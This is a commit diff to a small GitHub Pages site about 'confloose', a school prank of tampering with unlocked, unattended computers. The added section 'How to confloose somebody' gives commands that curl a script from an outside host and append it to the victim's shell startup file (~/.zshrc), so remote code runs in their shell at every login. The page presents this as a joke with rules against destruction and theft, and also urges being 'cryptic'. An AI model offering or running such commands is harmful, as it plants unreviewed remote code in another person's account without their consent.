

Before and after one commit to Snaipe/confloose, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 93-766 px from the top of the page, without its empty margins (178-1093 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

```diff
--- a/index.html
+++ b/index.html
@@ -34,18 +34,31 @@
 <p>A <em>confloose</em> (or "loose configuration") is a collection of the worst a startup
 script can do for you.</p>
 
-<p>When someone leaves his computer without locking it, the tradition here is to
-install such scripts on his computer while he's away -- as such, a confloose is
-a challenge (it makes you learn your unix environment the hard way), and a way
-to remind you to never leave your computer and/or data in public space without
-protection.</p>
+<p>There has been a prank going on from quite some time in my IT school --
+when someone leaves his computer unattended, and without locking it, one would
+append a script to the victim's shell startup file.</p>
+
+<p>The deal is to put really annoying things right off the bat while not harming
+the computer and the data on it -- this prank is meant as a lesson (you should
+not leave your computer unattended in public space), and a fun challenge (at
+least for the one watching from afar)</p>
+
+<h2>
+<a name="how-to-confloose-somebody-" class="anchor" href="#how-to-confloose-somebody-"><span class="octicon octicon-link"></span></a>How to confloose somebody :</h2>
+
+<p><code>curl "http://confloo.se/hard" &gt;&gt; ~/.the_shell_rc</code></p>
+
+<p>So, as an example, confloosing someone using zsh :</p>
+
+<p><code>curl "http://confloo.se/hard" &gt;&gt; ~/.zshrc</code></p>
 
 <h2>
 <a name="rules-" class="anchor" href="#rules-"><span class="octicon octicon-link"></span></a>Rules :</h2>
 
 <ol>
-<li>Don't destroy user data.</li>
-<li>Don't steal user data.</li>
+<li>Don't destroy anything.</li>
+<li>Don't steal anything.</li>
+<li>Try to be cryptic.</li>
 <li>Be fun and creative.</li>
 </ol>
       </section>
--- a/params.json
+++ b/params.json
@@ -1 +1 @@
-{"name":"Confloose","tagline":"The worst startup scripts ever","body":"Confloose\r\n=========\r\n\r\nA *confloose* (or \"loose configuration\") is a collection of the worst a startup\r\nscript can do for you.\r\n\r\nWhen someone leaves his computer without locking it, the tradition here is to\r\ninstall such scripts on his computer while he's away -- as such, a confloose is\r\na challenge (it makes you learn your unix environment the hard way), and a way\r\nto remind you to never leave your computer and/or data in public space without\r\nprotection.\r\n\r\nRules :\r\n-------\r\n1. Don't destroy user data.\r\n2. Don't steal user data.\r\n3. Be fun and creative.\r\n","google":"","note":"Don't delete this file! It's used internally to help with page regeneration."}
+{"name":"Confloose","tagline":"The worst startup scripts ever","body":"Confloose\r\n=========\r\n\r\nA *confloose* (or \"loose configuration\") is a collection of the worst a startup\r\nscript can do for you.\r\n\r\nThere has been a prank going on from quite some time in my IT school --\r\nwhen someone leaves his computer unattended, and without locking it, one would\r\nappend a script to the victim's shell startup file.\r\n\r\nThe deal is to put really annoying things right off the bat while not harming\r\nthe computer and the data on it -- this prank is meant as a lesson (you should\r\nnot leave your computer unattended in public space), and a fun challenge (at\r\nleast for the one watching from afar)\r\n\r\nHow to confloose somebody :\r\n---------------------------\r\n\r\n``curl \"http://confloo.se/hard\" >> ~/.the_shell_rc``\r\n\r\nSo, as an example, confloosing someone using zsh :\r\n\r\n``curl \"http://confloo.se/hard\" >> ~/.zshrc``\r\n\r\nRules :\r\n-------\r\n1. Don't destroy anything.\r\n2. Don't steal anything.\r\n3. Try to be cryptic.\r\n4. Be fun and creative.\r\n","google":"","note":"Don't delete this file! It's used internally to help with page regeneration."}
```
